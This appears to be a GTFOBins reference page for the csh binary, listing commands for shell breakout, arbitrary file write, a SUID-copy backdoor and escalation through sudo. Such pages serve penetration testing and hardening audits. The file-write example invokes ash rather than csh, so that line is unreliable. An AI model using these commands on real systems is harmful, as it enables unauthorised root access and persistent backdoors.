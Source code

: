 # GTFOBin: csh

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
csh
```

## File write

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

```
export LFILE=file_to_write
ash -c 'echo DATA > $LFILE'
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which csh) .

./csh -b
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo csh
```